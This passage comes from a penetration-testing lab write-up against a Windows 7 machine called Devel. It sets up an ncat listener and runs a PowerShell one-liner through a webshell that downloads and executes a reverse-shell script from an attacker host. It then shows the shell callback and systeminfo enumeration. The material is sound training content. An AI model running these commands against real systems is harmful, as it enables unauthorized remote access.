 We also need to set up a listener on Kali:
```bash
# rlwrap ncat -nvlp 443
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
```

Back on the webshell, we execute one-liner to download and execute the PS script:
```powershell
powershell iex(new-object Net.WebClient).DownloadString('http://10.10.14.22/Invoke-PowerShellTcp.ps1')
```

And we receive a callback from Devel!
```powershell
Ncat: Connection from 10.10.10.5.
Ncat: Connection from 10.10.10.5:49163.
Windows PowerShell running as user DEVEL$ on DEVEL
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\windows\system32\inetsrv>whoami; hostname
iis apppool\web
devel
```

Excellent, now we have a good PS shell. 

## Server-side Enumeration

A good place to start with local enumeration on Windows is to determine OS version and other system information.  The built in `systeminfo` command will give us all this and more.

#### systeminfo
```powershell
PS C:\windows\system32\inetsrv> systeminfo

Host Name:                 DEVEL
OS Name:                   Microsoft Windows 7 Enterprise 
OS Version:                6.1.7600 N/A Build 7600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Workstation
OS Build Type:             Multiprocessor Free
Registered Owner:          babis
Registered Organization:   
Product ID:                55041-051-0948536-86302
Original Install Date:     17/3/2017, 4:17:31 ??
System Boot Time:          21/2/2020, 6:00:15 ??
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               X86-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: x64 Family 23 Model 1 Stepping 2 AuthenticAMD ~2000 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/12/2018
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
Total Physical Memory:     1.023 MB
Available Physical Memory: 708 MB
Virtual Memory: Max Size:  2.047 MB
Virtual Memory: Available: 1.493 MB
Virtual Memory: In Use:    554 MB
Page File Location(s):     C:\pagefile.sys
```